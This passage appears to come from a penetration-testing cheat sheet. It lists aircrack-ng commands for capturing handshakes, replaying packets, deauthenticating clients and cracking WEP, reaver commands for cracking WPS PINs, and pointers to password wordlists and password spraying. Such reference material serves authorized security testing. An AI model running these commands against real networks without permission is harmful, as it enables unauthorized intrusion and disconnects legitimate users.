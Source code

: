 Monitor the real/fake WiFi network to capture handshakes/requests:

```fundamental
airodump-ng wlan0mon --channel 8 -w airodump_essid_results --essid essid --bssid FF:FF:FF:FF:FF:FF
```

Start replaying packets to clients within your range:

```fundamental
aireplay-ng --cfrag -D wlan1 -e essid -h FF:FF:FF:FF:FF:FF
```

\[Optional\] Deauthenticate clients from the real/fake WiFi network:

```fundamental
aireplay-ng --deauth 10 wlan1 -e essid -a FF:FF:FF:FF:FF:FF
```

Crack the WEP authentication:

```fundamental
aircrack-ng -e essid -b FF:FF:FF:FF:FF:FF airodump_essid_results*.cap
```

### WPS PIN

Crack a WPS PIN:

```fundamental
reaver -vv --pixie-dust -i wlan1 -c 8 -e essid -b FF:FF:FF:FF:FF:FF
```

Crack a WPS PIN with some delay between attempts:

```fundamental
reaver -vv --pixie-dust -N -L -d 5 -r 3:15 -T 0.5 -i wlan1 -c 8 -e essid -b FF:FF:FF:FF:FF:FF
```

## 4. Wordlists

You can find `rockyou.txt` inside `/usr/share/wordlists/` directory or inside [SecLists](https://github.com/danielmiessler/SecLists) - a useful collection of multiple types of wordlists for security assessments.

Install SecLists (the collection will be stored at `/usr/share/seclists/` directory):

```bash
apt-get update && apt-get install seclists
```

Another popular wordlist collections:

* [xmendez/wfuzz](https://github.com/xmendez/wfuzz)
* [assetnote/commonspeak2-wordlists](https://github.com/assetnote/commonspeak2-wordlists)
* [weakpass.com/wordlist](https://weakpass.com/wordlist)
* [packetstormsecurity.com/Crackers/wordlists](https://packetstormsecurity.com/Crackers/wordlists)

### Password Spraying

Find out how to generate a good password spraying wordlist from my other [project](https://github.com/ivan-sincek/wordlist-extender), but first you will need a few good keywords that describe your target.
